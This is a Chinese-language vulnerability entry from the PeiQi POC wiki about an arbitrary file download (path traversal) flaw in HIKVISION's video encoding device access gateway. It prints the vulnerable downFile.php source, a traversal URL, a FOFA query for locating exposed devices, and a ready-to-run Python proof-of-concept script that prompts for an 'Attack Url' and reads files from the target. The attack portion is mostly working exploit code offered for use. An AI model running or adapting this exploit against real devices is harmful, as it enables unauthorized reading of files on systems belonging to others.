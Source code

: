 ```yaml
---
title: HIKVISION 视频编码设备接入网关 任意文件下载
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - HIKVISION
---
```


# HIKVISION 视频编码设备接入网关 任意文件下载

## 漏洞描述

海康威视视频接入网关系统在页面/serverLog/downFile.php的参数fileName存在任意文件下载漏洞

## 漏洞影响

> [!NOTE]
>
> HIKVISION 视频编码设备接入网关

## FOFA

> [!NOTE]
>
> title="视频编码设备接入网关"

## 漏洞复现

![](/img/20210924013623174782.png)

漏洞文件为 **downFile.php**, 其中 **参数 fileName** 没有过滤危险字符，导致可文件遍历下载

```php
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../log/";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

访问 http://xxx.xxx.xxx.xxx/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php 下载文件

![](/img/20210924013623414766.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: HIKVISION 视频编码设备接入网关                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php \033[0m".format(target_url))
        if "$file_name" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 downFile.php \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](/img/20210924013624642565.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> HIKVISION_Video_coding_equipment_Download_any_file

![](/img/20210924013625308918.png)